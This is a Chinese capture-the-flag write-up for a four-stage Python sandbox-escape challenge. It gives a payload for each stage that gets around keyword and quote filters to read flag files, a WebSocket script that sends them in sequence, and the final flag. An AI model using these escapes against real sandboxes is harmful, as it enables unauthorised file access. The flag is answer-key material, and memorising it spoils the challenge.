

# 68 Pyjali · Misc

- 分类：Misc ｜ 分值：300 ｜ 状态：平台已解
- 四关 Python 沙箱（pyjail），过滤逐层加码：无过滤 → 禁 `open` → 禁 `__builtins__` → 禁引号。

## 题目

- 题号 68，题名「Pyjali」，题面只有一句「那就别低调了」。
- 动态容器，连上是一个带 ASCII Banner 的闯关程序：

| 关卡 | 名称 | 分值 | 过滤 |
|---|---|---|---|
| 1 | Hello, Jail | 100 | 无 |
| 2 | Read Me | 200 | `open` 被拉黑（子串匹配） |
| 3 | No Builtins | 250 | 连 `__builtins__` 也不许出现 |
| 4 | Silent Escape | 300 | 引号不能用了 |

每关读的是 `/flag1.txt` ~ `/flag4.txt`（口令，不是最终 flag），四关全过才打印真正的 flag。

## 思路

- 第 1 关没有任何过滤：`print(open('/flag1.txt').read())`。
- 第 2 关黑名单只做子串匹配，字符串拼接即可绕过：`__builtins__['op'+'en']`。
- 第 3 关 `__builtins__` 也成了敏感词，换条链路拿 builtins：`(lambda:0).__globals__['__buil'+'tins__']`。
- 第 4 关连引号都禁，用 `bytes([...]).decode()` 现场造字符串，`__builtins__`、`open`、`/flag4.txt` 全部用字节序列拼出来。
- 关键约束：**每关的令牌只在当前连接有效**，一关一个 prompt，必须单连接内连闯四关，不能断开重连。

## 关键步骤

```python
# stage 1
print(open('/flag1.txt').read())

# stage 2
print(__builtins__['op'+'en']('/flag2.txt').read())

# stage 3
print((lambda:0).__globals__['__buil'+'tins__']['op'+'en']('/flag3.txt').read())

# stage 4（无引号）
print((lambda:0).__globals__[bytes([95,95,98,117,105,108,116,105,110,115,95,95]).decode()]
      [bytes([111,112,101,110]).decode()](bytes([47,102,108,97,103,52,46,116,120,116]).decode()).read())
```

用一个「等提示符再发下一条」的驱动脚本串起来，读到 `[stage N] >>>` 才发对应 payload：

```javascript
const ws = new WebSocket('ws://<host>/ws');
let stage = 0;
ws.onmessage = (e) => {
  const s = e.data;
  const m = s.match(/\[stage (\d)\] >>>/);
  if (m) ws.send(payloads[Number(m[1]) - 1]);
};
```

四关实测回显（每关 `✔ 第 N 关通过`，最后打印总 flag）：



## Flag

```text
S3C{6174e4255386}
```

## 踩坑 / 备注

- 断了就白打：令牌在每次连接时重新生成，必须一个连接里走完四关。
- 第 2 关的 `__builtins__` 在本关是 dict 而不是 module，`getattr` 会报错，只能用下标 `['op'+'en']`。
- 第 4 关的 `bytes([...])` 列表要提前算好 ASCII 码，`.` 是 46、`/` 是 47，写错一个就读不到文件。
